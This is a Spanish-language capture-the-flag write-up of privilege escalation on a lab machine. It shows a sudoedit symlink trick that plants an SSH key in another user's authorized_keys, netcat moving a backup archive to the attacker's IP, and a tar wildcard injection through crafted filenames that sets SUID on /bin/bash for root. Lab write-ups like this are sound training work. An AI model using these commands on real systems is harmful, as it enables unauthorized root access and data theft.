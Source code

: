 ## Escalada de privilegios {-}

### Escalada de privilegios al usuario alekos {-}

```bash
ls -l /var/www
```

No tenemos capacidad de escritura en el directorio `/var/www` pero hay un directorio testing donde el usuario proprietario es werkzeug.

```bash
cd /var/www/testing
ls -l
mkdir hannamod
cd !$
echo "Hola" > layout.html
```

Testeamos el comando **sudoedit**

```bash
sudoedit -u alekos /var/www/testing/hannamod/layout.html
```

El comando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

1. Creamos un enlace symbolico contra el **authorized_keys** del usuario alekos

    ```bash
    ln -s -f /home/alekos/.ssh/authorized_keys layout.html
    ```

1. Nos creamos un par de claves

    ```bash
    ssh-keygen
    ```

1. Lanzamos el **sudoedit** y copiamos la clave publica creada
1. Nos conectamos al usuario alekos por ssh

    ```bash
    ssh -i id-rsa alekos@10.10.10.21
    ```

Pa dentro... somos alekos y podemos leer la flag.

### Escalada de privilegios al usuario root {-}

```bash
id
sudo -l
ls -l
```

vemos que hay dos directorios 

- backup
- development

```bash
cd backup
stat *
stat * | grep "Modify"
```

En el directorio backup vemos que cada 5 minutos una tarea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

1. En la maquina de atacante

    ```bash
    nc -u -nlvp 443 > dev-1627332901.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc -u 10.10.14.20 443 < dev-1627332901.tar.gz
    ```

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un comando del estilo: `tar -cvf backup/test.tar.gz /home/alekos/development/*`.
Aqui el problema es que si el comando es este, el simbolo `*` permitteria burlar el comando tar con breakpoints. Lo que queremos ejecutar seria
el comando siguiente:

```bash
tar -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh
```

El echo es que si el comando de la tarea cron tiene el asterisco y que ficheros tienen nombres como `--checkpoint=1` y `--checkpoint-action=exec/bin/sh`,
en vez de copiarlos, los utilizaria como argumentos del proprio comando tar.

```bash
touch privesc
chmod +x privesc

nano privesc

############privesc content##############3

#!/bin/bash

chmod 4755 /bin/bash
```

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc'
```

Ya esta esperamos hasta el proximo run de la tarea cron.

```bash
watch -n 1 ls -l /bin/bash -d
```

Cuando vemos que la /bin/bash tiene el `s` de SUID podemos convertirnos en root

```bash
bash -p
```

